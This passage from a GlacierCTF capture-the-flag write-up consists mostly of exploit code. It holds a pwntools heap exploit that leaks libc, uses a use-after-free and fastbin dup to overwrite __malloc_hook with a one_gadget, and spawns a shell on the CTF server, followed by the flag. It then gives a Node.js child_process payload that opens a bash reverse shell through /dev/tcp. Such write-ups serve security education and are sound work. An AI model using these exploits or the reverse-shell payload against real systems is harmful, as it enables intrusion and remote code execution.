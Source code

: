 ```python
    p.sendlineafter(b'>', b'4')
    p.sendlineafter(b'idx:', b'%d' % idx)
    p.recvuntil(b'data: ')
    return p.recvline()

# p = elf.process()
p = remote('pwn.glacierctf.com', 13377)
# get libc main_arena
# goes unsorted-bin
add(0, 0x80)
# victim chunk
add(1, 0x68)
# padding
add(2, 0x24)
delete(0)
leak_main_arena = u64(view(0)[:6].ljust(8, b'\x00'))
libc.address = leak_main_arena - (0x3c4000 + 0xb78)
log.info(f'leak main arena @ 0x{leak_main_arena:x}')
log.info(f'libc base @ 0x{libc.address:x}')
add(0, 0x80)

# uaf -> fastbin dup -> __malloc_hook into one_gadget
delete(1)
write(1, p64(libc.sym['__malloc_hook']-0x1b-8))
add(3, 0x68) # goes into fastbin list
add(4, 0x68) # goes into arbitrary here

# 0x4527a execve("/bin/sh", rsp+0x30, environ)
one_gadget = libc.address + 0x4527a
write(4, b'X'*(0x1b-8) + p64(one_gadget))

# spawn shell
add(0,0)

p.interactive()
# glacierctf{pwn_1S_Th3_0nly_r3al_c4t3G0ry_4nyw4y}
```

## Break the Calculator

> jsfuck -> import "require" from process.mainModule -> rce from exec()
> https://kamil-kielczewski.github.io/small-jsfuck/
> https://hackmd.io/@hakatashi/ryLh2okDD

payload:

```js
process.mainModule.require("child_process").exec("bash -c 'exec bash -i &>/dev/tcp/127.0.0.1/1337 <&1'");
```

## Filer
